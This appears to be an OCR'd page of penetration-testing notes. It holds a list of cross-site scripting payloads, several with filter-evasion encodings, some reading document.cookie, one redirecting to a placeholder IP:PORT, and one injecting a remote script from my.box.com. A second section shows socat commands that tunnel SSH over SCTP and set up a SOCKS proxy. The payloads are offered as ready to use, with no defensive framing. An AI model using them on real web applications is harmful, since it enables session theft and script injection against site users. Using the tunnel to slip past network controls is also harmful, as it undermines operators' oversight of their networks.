 
	XSS Cheat Codes
	https://www.owasp.org/index.php/XSS_Filter_Evasion_Cheat_Sheet
	("< iframes > src=http://IP:PORT </ iframes >")
	<script>document.location=http://IP:PORT</script>
	';alert(String.fromCharCode(88,83,83))//\';alert(String.fromCharCode(88,83,83))//";alert(String.fromCharCode(88,83,83))//\";alert(String.fromCharCode(88,83,83))//–></SCRIPT>">'><SCRIPT>alert(String.fromCharCode(88,83,83))</SCRIPT>
	";!–"<XSS>=&amp;amp;{()}
	<IMG SRC="javascript:alert('XSS');">
	<IMG SRC=javascript:alert('XSS')>
	<IMG """><SCRIPT>alert("XSS")</SCRIPT>"">
	<IMG SRC=&amp;amp;#106;&amp;amp;#97;&amp;amp;#118;&amp;amp;#97;&amp;amp;#115;&amp;amp;#99;&amp;amp;#114;&amp;amp;#105;&amp;amp;#112;&amp;amp;#116;&amp;amp;#58;&amp;amp;#97;&amp;amp;#108;&amp;amp;#101;&amp;amp;#114;&amp;amp;#116;&amp;amp;#40;&amp;amp;#39;&amp;amp;#88;&amp;amp;#83;&amp;amp;#83;&amp;amp;#39;&amp;amp;#41;>
	<IMG SRC=&amp;amp;#0000106&amp;amp;#0000097&amp;amp;#0000118&amp;amp;#0000097&amp;amp;#0000115&amp;amp;#0000099&amp;amp;#0000114&amp;amp;#0000105&amp;amp;#0000112&amp;amp;#0000116&amp;amp;#0000058&amp;amp;#0000097&amp;amp;#0000108&amp;amp;#0000101&amp;amp;#0000114&amp;amp;#0000116&amp;amp;#0000040&amp;amp;#0000039&amp;amp;#0000088&amp;amp;#0000083&amp;amp;#0000083&amp;amp;#0000039&amp;amp;#0000041>
	<IMG SRC="jav ascript:alert('XSS');">
	perl -e 'print "<IMG SRC=javascript:alert(\"XSS\")>";' > out
	<BODY onload!#$%&amp;()*~+-_.,:;?@[/|\]^`=alert("XSS")>
	(">< iframes http://google.com < iframes >)
	<BODY BACKGROUND="javascript:alert('XSS')">
	<FRAMESET><FRAME SRC=”javascript:alert('XSS');"></FRAMESET>
	"><script >alert(document.cookie)</script>
	%253cscript%253ealert(document.cookie)%253c/script%253e
	"><s"%2b"cript>alert(document.cookie)</script>
	%22/%3E%3CBODY%20onload=’document.write(%22%3Cs%22%2b%22cript%20src=http://my.box.com/xss.js%3E%3C/script%3E%22)'%3E
	<img src=asdf onerror=alert(document.cookie)>


	SSH Over SCTP (With Socat)
	# on remote server
	# assuming you want the SCTP socket to listen on port 80/SCTP and sshd is on 22/TCP
	$ socat SCTP-LISTEN:80,fork TCP:localhost:22
	# localhost
	# replace SERVER_IP with IP of listening server, and 80 with whatever port the SCTP listener is on :)
	$ socat TCP-LISTEN:1337,fork SCTP:SERVER_IP:80
	# create socks proxy
	# replace username and -p port value as needed...
	$ ssh -lusername localhost -D 8080 -p 1337
